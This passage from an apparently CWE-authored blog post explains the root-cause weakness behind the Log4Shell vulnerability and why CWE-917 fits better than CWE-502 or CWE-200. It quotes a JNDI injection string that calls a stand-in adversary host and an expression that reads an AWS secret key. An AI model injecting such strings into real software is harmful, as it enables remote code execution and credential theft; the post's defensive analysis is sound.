 <figure><img alt="" src="https://cdn-images-1.medium.com/max/1024/1*Hygx67ieBXMbzH6e_oj6Pg.jpeg" /><figcaption>Source: <a href="https://picryl.com/media/moving-logs-1917-7cb2cd">https://picryl.com/media/moving-logs-1917-7cb2cd</a></figcaption></figure><p>The recent vulnerability in log4j (<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">CVE-2021–44228</a>), also called “Log4Shell,” has received a lot of attention because of how dangerous and <a href="https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592">widespread</a> it is. Defenders in vulnerability management and incident response will likely be very busy with this one for a while.</p><p>While Log4Shell has been a hot topic, there hasn’t been much discussion about the original mistakes made, i.e., the weaknesses involved, and how the initial failure to address the root cause weakness led to additional pain (and multiple fixes) for defenders within the first week of disclosure. Also, you might have noticed how the same CVE was mapped to different CWEs by multiple sources. Let’s look a little deeper into the weakness that started it all.</p><p><strong>Getting to Root Cause — The Initial Mistake</strong></p><p>An important aspect of the vulnerability is that log4j can treat substrings of the form “${xyz}” as executable expressions. Here, the “$” and “{}” characters are <a href="https://cwe.mitre.org/documents/glossary/index.html#Special%20Element">special elements</a> that change how the string is generated: the contents of the “${xyz}” sequence are executed like code. The <a href="https://cybersecurity.ieee.org/blog/2015/11/13/avoiding-the-top-10-security-flaws/">mixture of control logic (or commands) with data in the same string or message</a> is a commonly known, ubiquitous design flaw in many protocols, functions, and languages, which can make it very easy for programmers to introduce vulnerabilities where malicious data is treated as a command. It doesn’t take much imagination to see that things could get really bad, really quick.</p><p>As seen in many exploit examples for this vulnerability, the attacker can inject executable expressions by using the “${xyz}” style format. However, injection is an attack. The key weakness consists of log4j not “neutralizing” potentially dangerous inputs that contain special elements, which are later fed to a command interpreter. The CWE glossary defines <a href="https://cwe.mitre.org/documents/glossary/index.html#Neutralization">neutralization</a> as “the process of ensuring that input or output has certain security properties before it is used,” which broadly includes protection mechanisms such as filtering, canonicalization, validation, etc. The high-level class <a href="https://cwe.mitre.org/data/definitions/74.html">CWE-74</a> covers improper neutralization, with many well-known descendants related to SQL injection (CWE-89), OS command injection (CWE-78), and others.</p><p>For this log4j issue, the most precise CWE available is <a href="https://cwe.mitre.org/data/definitions/917.html">CWE-917</a>: Improper Neutralization of Special Elements used in an Expression Language Statement (‘Expression Language Injection’). This entry could be found by navigating the sub-tree under CWE-74, or by knowing that the “${}” sequences are called expression language. Through the <a href="https://cwe.mitre.org/news/index.html#june102021_Join_the_CWE_CAPEC_User_Experience_Working_Group">User Experience Working Group</a>, we’re trying to find ways to make CWE easier to use, so that it’s easier to find the best match.</p><p><strong>CWE Mapping — Your Mileage May Vary</strong></p><p>So, why isn’t CWE-917 universally used for Log4Shell? Part of it comes down to the perspective of the person who is mapping to CWE and how deeply they have analyzed the mistake that created the vulnerability.</p><p>Consider a common exploit string that is injected into various inputs that are eventually processed by log4j:</p><p>${jndi:ldap://adversary.example.com/payload}</p><p>As <a href="https://www.crowdstrike.com/blog/log4j2-vulnerability-analysis-and-mitigation-recommendations/">described</a> elsewhere, this expression triggers a call to an adversary-controlled server that returns a Java class with malicious code that is then executed by log4j. This process effectively involves deserialization, so people might map this to <a href="https://cwe.mitre.org/data/definitions/502.html">CWE-502</a>: Deserialization of Untrusted Data. However, the ability to inject code is a consequence (or technical impact) resulting from the exploitation of the actual weakness, which is allowing attacker-injected expressions to trigger the download of the malicious code in the first place.</p><p>There are also exploits that involve accessing sensitive information, such as using “${env:AWS_SECRET_ACCESS_KEY}” to <a href="https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html">read an environment variable containing a secret API key</a>. Because information is leaked, somebody might map the issue to <a href="https://cwe.mitre.org/data/definitions/200.html">CWE-200</a>: Exposure of Sensitive Information to an Unauthorized Actor.</p><p>At best, for this particular vulnerability, CWE-502 and CWE-200 are “resultant” from the original mistake. They are part of a chain of insecure behaviors that are enabled by the “root cause” weakness, improperly neutralizing expressions (i.e., CWE-917). If an expression language is very powerful, dozens of CWEs could be “resultant” from the mistake of simply allowing the expression language to be processed. Our <a href="https://cwe.mitre.org/documents/cwe_usage/guidance.html">CWE mapping guidance</a> generally discourages mapping to a CWE if it’s effectively a “technical impact” stemming directly from a root cause CWE, instead of a completely independent mistake.</p><p>Many people thinking about the root